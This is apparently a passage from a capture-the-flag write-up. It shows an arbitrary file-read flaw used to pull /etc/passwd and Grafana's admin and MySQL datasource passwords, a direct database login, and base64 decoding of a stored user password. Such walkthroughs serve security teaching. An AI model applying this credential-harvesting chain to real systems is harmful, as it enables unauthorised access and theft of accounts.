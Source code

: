 ```bash
consul:x:997:997::/home/consul:/bin/false

Read file >
```
```bash
grep sh$ passwd
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
```bash
grep graf passwd
grafana:x:113:118::/usr/share/grafana:/bin/false
```

looking at the documentation for grafana, we're pulling the default config location for an ubuntu install
```bash
/etc/grafana/grafana.ini
```
the only non default config is the admin password
and it successfully logs us in the admin portal
```
admin_password = messageInABottle685427
```
the portal shows that the config file for the datasource is "mysql.yaml"   
again looking a little into the documentation, we're pulling the mysql datasource config file with the same exploit  
and that gives us the  password for the grafana mysql database user  
```yaml
Read file > /etc/grafana/provisioning/datasources/mysql.yaml
apiVersion: 1

datasources:
 - name: mysql.yaml
   type: mysql
   host: localhost
   database: grafana
   user: grafana
   password: dontStandSoCloseToMe63221!
   editable: false
```


## Connecting to the MySQL database
as we know the db is exposed to over the network, so at this stage nothing prevents us from connecting directly  
```sql
mysql -u grafana -p -h example.org -D grafana
```

```sql
MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```
the password isn't even hashed that's embarassing
```bash
printf 'YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg=='|base64 -d
anEnglishManInNewYork027468
```
```bash
developer@ambassador:~$ wc -c user.txt
33 user.txt
```
